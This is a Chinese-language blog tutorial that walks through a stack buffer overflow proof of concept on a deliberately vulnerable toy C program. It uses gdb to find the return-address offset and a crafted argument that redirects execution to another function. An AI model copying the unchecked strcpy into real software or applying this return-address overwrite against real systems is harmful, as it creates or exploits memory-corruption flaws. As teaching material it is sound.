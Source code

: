 ```yaml
---
# MUST HAVE BEG
layout: post
disqus_identifier: 20150604-buffer-overflow-poc # DO NOT CHANGE THE VALUE ONCE SET
title: A Buffer Overflow POC
# MUST HAVE END

is_short: true
subtitle:
tags: 
- gdb
date: 2015-06-04 18:00:00
image: 
image_desc: 
---
```


	#include <stdio.h>
	#include <string.h>

	void call_me() {
	    printf("you called me \n");
	}

	void func1(char *s) {
	    char buf[16];
	    strcpy(buf, s); // buffer may overflow here
	}

	int main(int argc, char **argv) {
	    func1(argv[1]);
	}

实验的环境是Ubuntu 14.04.1，gcc 4.8.2。编译的选项如下，

    $ gcc -m32 -fno-stack-protector -g -static poc.cpp -o poc.out

目标是构造一个输入字符串覆盖函数`func1`的返回地址，使得函数`call_me`被调用到，比如，

    $ ./poc.out some-input-string-to-overflow-buffer

当程序执行到`func1`的时候，[stack][1]大概是这个样子：

    | func1's local variable | 低地址方向
    | like buf[16]           |
    |------------------------|
    | main's ebp             | <= 当前的ebp
    |------------------------|
    | return address         | <= 返回地址，就是func1返回后，main函数应该执行的下一条指令
    |------------------------|
    | main's stack ...       | 高地址方向

如果把上图中的`return address`修改成`call_me`的函数地址就可以让`call_me`被调用到。

通过`nm`可以查看`call_me`的地址（`call_me`两边的字符是C++ name mangling的副作用）

    $ nm poc.out | grep call_me
    08048e24 T _Z7call_mev

用gdb的[tui][2]模式打开可执行文件，

    $ gdb -tui poc.out

<!-- at least one blank line before <div>, <p>, <pre> or <table>,
and one blank after </div>.
but you can use <span>, <cite>, <del> freely -->
<div style="text-align: center;">
  <img src="/images/blog/buf-overflow-poc.png" alt="gdb tui snapshot" style="width:620px;">
</div>

	(gdb) set disassembly-flavor intel  # 让gdb在显示汇编时使用intel风格
	(gdb) ctrl-x 2                      # 在tui模式下同时显示代码和汇编窗口
	(gdb) focus asm                     # 焦点设在汇编窗口上，可以用上下箭头滚动窗口
	(gdb) b main                        # 进入程序时，先断住
	(gdb) run abc                       # 运行可执行文件时传入一个参数“abc”

滚动一下汇编窗口可以找到`func1`函数的返回地址`0x8048e6b`，就是`call`指令的下一条指令的地址，

    │0x8048e66 <main(int, char**)+20>        call   0x8048e38 <func1(char*)>
    │0x8048e6b <main(int, char**)+25>        mov    eax,0x0 

让程序执行到`func1`函数里，然后停住。这时，可以检查一下上面画的stack示意图对不对。

	(gdb) x $ebp+4
	0xffffcf9c:     0x08048e6b

`$ebp+4`（`+4`，因为可执行程序是编译成32位的）存的就是返回地址，确实是`0x8048e6b`。

函数`func1`对应的汇编指令如下，

     │0x8048e38 <func1(char*)>        push   ebp            
     │0x8048e39 <func1(char*)+1>      mov    ebp,esp     
     │0x8048e3b <func1(char*)+3>      sub    esp,0x28        
    >│0x8048e3e <func1(char*)+6>      mov    eax,DWORD PTR [ebp+0x8]     
     │0x8048e41 <func1(char*)+9>      mov    DWORD PTR [esp+0x4],eax      
     │0x8048e45 <func1(char*)+13>     lea    eax,[ebp-0x18]             
     │0x8048e48 <func1(char*)+16>     mov    DWORD PTR [esp],eax     
     │0x8048e4b <func1(char*)+19>     call   0x80481e0         
     │0x8048e50 <func1(char*)+24>     leave 
   
`call`指令会调用库函数进行buffer的拷贝。在`leave`指令处设一个断点，可以看到buffer拷贝的效果。

    (gdb) b *0x8048e50        #在leave处break

检查一下局部变量`buf[]`对应的内存，参数“abc”应该已经被拷贝到`buf[]`上了。`a`，`b`，`c`对应的ASCII码
为`0x61`，`0x62`，`0x63`。可以通过`man ascii`快速查看一下ASCII码表，

    $ man ascii
       Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
       ────────────────────────────────────────────────────────────────────────
       000   0     00    NUL '\0'                    100   64    40    @
       001   1     01    SOH (start of heading)      101   65    41    A
       ...
       041   33    21    !                           141   97    61    a
       042   34    22    "                           142   98    62    b
       043   35    23    #                           143   99    63    c

在gdb里检查`buf[]`对应的内存，

	(gdb) x/16bx $ebp-16   ＃'b'，单位为byte， '16'，检查16个byte
	0xffffcf88:     0x01    0x00    0x00    0x00    0xe2    0x95    0x04    0x08
	0xffffcf90:     0x02    0x00    0x00    0x00    0x44    0xd0    0xff    0xff

并没有发现“abc”对应的字节。这是因为内存是以8字节对齐的。扩大内存的检查范围就可以看到`a`，`b`，`c`，

	(gdb) x/24
	0xffffcf80:     0x61    0x62    0x63    0x00    0x50    0xd0    0xff    0xff
	0xffffcf88:     0x01    0x00    0x00    0x00    0xe2    0x95    0x04    0x08
	0xffffcf90:     0x02    0x00    0x00    0x00    0x44    0xd0    0xff    0xff

所以为了覆盖`func1`的返回地址，需要24（`buf[16]`）＋ 4（`ebp`） ＋ 4（`0x08048e24`）＝ 32字节。

	$ ./poc.out 1234567890123456789012345678$'\x24'$'\x8e'$'\x04'$'\x08'
	you called me 
	Segmentation fault (core dumped)

通过`$'\x24'`在终端里输入一个非打印字符（详见`man bash`）。因为实验机器的字节序是Little Endian，
低位存放在内存低地址处，所以通过`$'\x24'$'\x8e'$'\x04'$'\x08'`来表示`0x08048e24`。

程序出现Segmentation fault，应该是因为我们并没有为`call_me`设立正确的返回地址。

快速查看机器字节序（Byte Order）的一个方法，
   
	$ lscpu
	Architecture:          x86_64
	CPU op-mode(s):        32-bit, 64-bit
	Byte Order:            Little Endian
   ...

Have Fun😄

[1]: http://www.csee.umbc.edu/~chang/cs313.s02/stack.shtml "stack"
[2]: /gdb-tui-mode.html "gdb tui mode"



